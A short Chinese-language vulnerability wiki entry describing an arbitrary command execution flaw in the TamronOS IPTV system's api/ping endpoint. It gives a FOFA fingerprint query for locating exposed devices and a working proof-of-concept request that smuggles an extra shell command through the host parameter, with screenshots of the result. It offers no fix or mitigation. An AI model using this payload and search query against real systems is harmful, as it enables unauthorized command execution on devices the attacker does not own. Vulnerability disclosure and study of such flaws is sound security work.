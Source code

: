 # TamronOS IPTV系统 ping 任意命令执行漏洞

## 漏洞描述

TamronOS IPTV系统 api/ping 存在任意命令执行漏洞，攻击者通过漏洞可以执行任意命令

## 漏洞影响

> [!NOTE]
>
> TamronOS IPTV系统

## FOFA

> [!NOTE]
>
> app="TamronOS-IPTV系统"

## 漏洞复现

登录页面如下

![image-20210615145308242](http://wikioss.peiqi.tech/vuln/image-20210615145308242.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)

漏洞POC为

```
/api/ping?count=5&host=;id;
```

![image-20210615145342322](http://wikioss.peiqi.tech/vuln/image-20210615145342322.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)